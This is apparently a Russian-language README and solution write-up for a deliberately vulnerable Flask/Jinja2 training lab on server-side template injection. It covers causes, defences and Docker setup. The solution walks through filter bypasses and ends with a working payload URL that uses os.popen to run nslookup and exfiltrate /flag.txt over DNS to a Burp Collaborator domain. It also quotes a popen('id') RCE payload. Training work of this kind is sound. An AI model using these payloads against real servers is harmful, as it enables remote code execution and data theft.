










## Описание уязвимости
SSTI - уязвимость внедрения шаблонов на стороне сервера(server side template injection). Возникает в том случае, если веб-приложение использует шаблонизаторы. Шаблонизаторы позволяют динамически создавать какой-то контент, используя при этом какую-то информацию.
Пример на Python:
```python
import jinja2
template_string = """
		Name: {{name}},
		Surname: {{surname}},
		Descripttion: {{description}}
"""
name, surname, description = "Paul", "Zaitsev", "Some information"
rendered_text = jinja2.Template(template_string).render(
	name = name,
	surname = surname,
	description = description
)
print(rendered_text)
```
В результате будет выведен текст:
```python
Name: Paul,
Surname: Zaitsev,
Descripttion: Some information
```
Кроме простых подстановок шаблонизаторы позволяют использовать различные фильтры, с помощью которых можно экранировать специальные символы. Пример фильтра - `striptags`(данный фильтр позволяет экранировать некоторые специальные символы языка HTML).
SSTI могут появляться по трём причинам:
- вставка пользовательского ввода на прямую в шаблон
```python
import jinja2

app.route("/hello")
def func():
	template_string = f"Hello, {request.form[name]}"
	rendered_mail = jinja2.Template(template_string).render()
```
В данном примере содержимое POST параметра `name` подставляется в переменную `template_string` и только после вставки строка передаётся в шаблонизатор.
- повторное использование шаблона, в который производилось встраивание пользовательских данных
```python
import jinja2
name = input("Имя: ")
surname = input("Фамилия: ")
template = "Hello {{user_name}} {{user_surname}}"
pre_mail = jinja2.Template(template).render(user_name=name, user_surname=surname)
post_mail = jinja2.Template(pre_mail + "\n{{content}}").render(content="https://google.com")
```
В случае, если мы поместим `{{7*'7'}}` в переменную `name`, то  `pre_mail` будет содержать `{{7*'7'}}` после создания строки, но так как `pre_mail` используется во второй раз, то `{{` и `}}` уже рассматриваются, как управляющие символы.
- возможность загружать свои собственные шаблоны. Если веб-приложение имеет file upload функциональность и каким-то образом можно передать в параметр функции `render_template` файл с нашим шаблоном, то можно эксплуатировать SSTI.

Небольшое замечание: для разных фреймворков могут использоваться различные шаблонизаторы, например Flask обычно используют в комбинации с Jinja, а Symphony - с Twig и т.д. Для эксплуатации других шаблонизаторов можно использовать следующий ресурс: [SSTI_payload_all_the_things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection)
## Способы защиты
Также, как и со всеми другими уязвимостями, нужно не давать пользователю взаимодействовать с шаблонами и не передавать пользовательский ввод в сам шаблон.
В случае, если этого нельзя избежать можно попытаться использовать следующие механизмы защиты:
- использование white листов
- использование фильтров, определённых в шаблонизаторе(применительно не только к SSTI, но и например к XSS) 
- передача пользовательского ввода через параметры функции рендеринга:
```python
...
return jinja2.Template(template_string).rendering(
	name = request.args.get('name')
	...
)
```
- иногда описанный выше пункт, может позволить злоумышленнику получить доступ к области видимости в рамках, которой доступен модуль `__import__`, поэтому нужно понимать, что нужно передавать в качестве параметров
```python
...
return jinja2.Template(template_string).rendering(
	name = request.args.get('name')
	request = request # где request - это переменная определённая в Flask
	...
)
```
Данный пример будет разобран подробнее позже.
- WAF
## Запуск приложения
Для запуска приложения необходимо:
- скачать репозиторий и перейти в папку с ним
- создать образ, используя следующую команду:
```shell
docker build -t ssti_vuln .
```
- запустить контейнер, протянув свободный локальный порт:
```shell
docker run -d -p <local-port>:9000 <image-id>
```
 - для остановки контейнера можно использовать:
```shell
docker stop <container-id>
```
- в случае, если необходимо изменить флаг, то можно поменять содержимое файла `flag.txt`
Примечание: так как в решении данной задачи будет использоваться протокол DNS, а в частности утилита nslookup, то содержимое флага должно соответствовать следующему формату: `^(?!-)[a-z0-9-]{1,63}(?<!-)$`
## Описание уязвимости в приложении
Имеется страница с карточками работников. Две карточки при изначальной загрузке уже присутствуют на странице, другая - подтягивается с помощью fetch запроса. Данный запрос использует метод GET и передаёт параметры:
- name
- age
- description

На базе данных GET параметров создаётся шаблон с предварительной санитизацией посредством функции `validation`.
Создание шаблонов происходит в два этапа:
- генерация основной информации:
```python
def generate_sanitized_object(name: str, age: int, description: str):
    template_string = """
        <div class="object">
            <h2>{{name|striptags}}</h2>
            <p><span class="age">Возраст:</span> {{age|striptags}} лет</p>
            <p><span class="description">Описание:</span> {{description|striptags}}</p>
        </div>
    """
    return jinja2.Template(template_string).render(
        name = name,
        age = age,
        description = description
    )
```
- добавление debug информации в виде спрятанного `div` тега:
```python
templ = generate_sanitized_object(validation(name), validation(age), validation(description))
templ += """\n
<div class="debug-information" hidden>
	<p>{{debug_info}}</p>
</div>
"""
return jinja2.Template(templ).render(debug_info = "some debug info", request = request)
```
## Решение
**Флаг содержится  в  `/file.txt`**
Воспользуемся Burp Suite для перехвата запросов.
Основной запрос:

Запрос при получении `index.html`

Второй запрос, который делается автоматически - AJAX запрос. Данный запрос содержит следующие параметры:
- name
- age
- descripttion
Если отправить запрос из раздела Proxy в Repeater и поменять содержимое GET-параметров `name` и `description` на свои, то можно заметить, что возвращается HTML код, содержащий наши значения.

Это наталкивает на мысль о том, что в приложении используется шаблонизатор.
Попытаемся определить движок используемого шаблонизатора, используя следующий payload: `{{7*7}}`.

Видим, что ничего не произошло. Проверим, а не проверяется пользовательский ввод на наличие `{{`, `}}`, ``.
Воспользуемся следующей полезной нагрузкой:
```
Hello
```
В ответе будет возвращено Hello только в том, случае, если `{%` не блокируется(или вообще если присутствует шаблонизатор)

Видим, что в результате мы получили Hello. Это значит, что `` не блокируются и что в качестве шаблонизатора используется Jinja.
Необходимо понять, какие символы нельзя использовать в нашем payload, так как он фильтруется. Для этого возьмём payload с  [SSTI_payload_all_the_things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection):
```python
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```
и будем поэтапно добавлять некоторые элементы, тем самым определяя, что фильтруется, а что нет.
Первый payload:
```python
Hello
```

Значит, что от `self` можно наследоваться. Запишем следующее значение:
```python
Hello
```

В ответ получаем 400 ошибку. Это означает, что какие-то символы из `__init__` фильтруются. Можно попытаться использовать следующий payload:
```python
Hello
```
предполагая, что фильтр написан на другом языке или используется WAF, но данный payload не пройдёт, так как фильтрация написана в самом приложении, а значит, что `\x5f == _`
Попытаемся использовать GET параметры и объект `request`, который используется внутри функций для получения содержимого POST, GET параметров.
Payload в таком случае будет выглядеть так:
```python
Hello
```
А сам url должен быть следующим:
```http
http://127.0.0.1:9001/get_user_info?name=%7b%25%20if%20self%5brequest.args.get('in')%5d%20%25%7dHello%7b%25%20endif%20%25%7d&age=26&description=something&in=__init__
```

По аналогии продолжаем наследоваться:
```python
 Hello 
```
Url будет выглядеть теперь так:
```http
http://127.0.0.1:9001/get_user_info?name=%7b%25%20if%20self%5brequest.args.get(%22in%22)%5d%5brequest.args.get(%22gl%22)%5d%5brequest.args.get('buins')%5d%5brequest.args.get('im')%5d%20%25%7d%20Hello%20%7b%25%20endif%20%25%7d&age=26&description=something&in=__init__&gl=__globals__&buins=__builtins__&im=__import__
```

Так как нам необходимо получить содержимое файла `flag.txt`, а уязвимость типа Blind, то необходимо воспользоваться какой-нибудь утилитой. Так, например, можно использовать утилиту `nslookup`, потому что в большинстве случаев,  исходящие DNS запросы не блокируются, чтобы не нарушать работу системы.
В конечном итоге payload должен выглядеть следующим образом:
```python
 Hello 
```
А url:
```http
http://127.0.0.1:9001/get_user_info?name=%7b%25%20if%20self%5brequest.args.get(%22in%22)%5d%5brequest.args.get(%22gl%22)%5d%5brequest.args.get('buins')%5d%5brequest.args.get('im')%5d('os').popen(%22nslookup%20%24(cat%20%2fflag.txt%20%7c%20grep%20-oP%20'(%3f%3c%3d%5c%7b).*(%3f%3d%5c%7d)').<burp-collabarator-domain>%22)%20%25%7d%20Hello%20%7b%25%20endif%20%25%7d&age=26&description=something&in=__init__&gl=__globals__&buins=__builtins__&im=__import__
```

Получили содержимое флага в качестве поддомена нашего collabarator.
